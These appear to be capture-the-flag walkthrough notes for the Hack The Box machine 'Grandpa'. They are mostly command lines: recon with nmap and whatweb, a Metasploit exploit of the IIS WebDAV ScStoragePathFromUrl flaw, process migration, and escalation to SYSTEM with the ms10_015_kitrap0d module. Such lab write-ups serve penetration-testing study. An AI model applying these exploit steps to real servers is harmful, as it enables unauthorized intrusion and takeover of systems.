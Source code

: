 ping 10.10.10.14
whatweb 10.10.10.14

echo "10.10.10.14 grandpa.htb" >> /etc/hosts
nmap grandpa.htb

msfconsole
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set lport, lhost and rhost
run

cd c:/
cd "Documents and Settings"
cd Harry -> Operation failed: Access is denied.

ps -> find NETWORK PRIVILEGES
migrate <pid>

getuid -> NETWORK PRIVILEGES
background

metasploit privilege escalation (https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
use windows/local/ms10_015_kitrap0d
set lport, lhost and session
run

getuid -> SYSTEM PRIVILEGES
cd "Documents and Settings"

get flags